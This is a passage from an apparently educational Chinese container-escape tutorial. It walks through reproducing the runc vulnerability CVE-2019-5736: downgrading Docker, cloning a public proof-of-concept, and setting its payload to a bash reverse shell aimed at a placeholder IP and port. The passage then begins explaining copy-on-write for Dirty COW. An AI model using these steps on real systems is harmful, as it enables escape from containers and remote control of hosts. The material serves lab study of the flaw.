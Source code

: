 ```bash
./metarget cnv install cve-2019-5736
```

如果在其他机器上部署，可以使用以下流程

```bash
# docker版本<= 18.09.2; runC版本<=1.0-rc6。
# 复现前需给机器打好快照或备份/usr/bin/docker-runc文件，因为漏洞利用结束会造成runc文件被修改，docker无法正常使用
# 移除当前安装的docker
yum remove docker-ce docker-ce-cli containerd.io
yum install -y yum-utils device-mapper-persistent-data lvm2
yum-config-manager --add-repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
# 列出可用版本
yum list docker-ce --showduplicates | sort -r
yum install docker-ce-18.03.1.ce-1.el7.centos -y
```

```bash
# 拉取poc，进入目录下
git clone https://github.com/Frichetten/CVE-2019-5736-PoC.git
# 修改main.go文件中的payload
var payload = "#! /bin/bash \n bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1"
# 编译go文件
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
# 拉取ubuntu镜像，运行一个容器
docker pull ubuntu:18.04
docker run -it --net=host ubuntu:18.04 /bin/bash # 进去后暂不退出 终端1
docker cp main id:/home# 打开另一个终端输入此命令 终端2
cd /home # 终端1
chmod 777 main# 终端1
./main# 终端1
docker exec -it id /bin/sh# 终端2
```

main.go 文件
![40fee9d1d71a49cea7fdd7fcd2c6b8a7.png](https://s2.loli.net/2023/10/07/JNiTD96v47YtmQH.png)
终端 1:
![410113fcd6664d15b5d6fb41199afed3.png](https://s2.loli.net/2023/10/07/I1kH2TZFeuGp4Co.png)
终端 2:
![58ec074a2cfc45f093e105c7f8740c35.png](https://s2.loli.net/2023/10/07/1k68jrqSZJAGaDu.png)
反弹 shell：
![d37be8595b754190876db0d683d82b88.png](https://s2.loli.net/2023/10/07/tKGVyn1zPo9dw2r.png)

## 0x05 内核漏洞导致的容器逃逸

### 5.1 CVE-2016-5195：内存页的写时复制问题

#### 内存页写时复制

在 Linux 系统中，调用 fork 系统调用创建子进程时，并不会把父进程所有占用的内存页复制一份，而是与父进程共用相同的内存页，而当子进程或者父进程对内存页进行修改时才会进行复制 —— 这就是著名的写时复制（Copy On Write）机制。
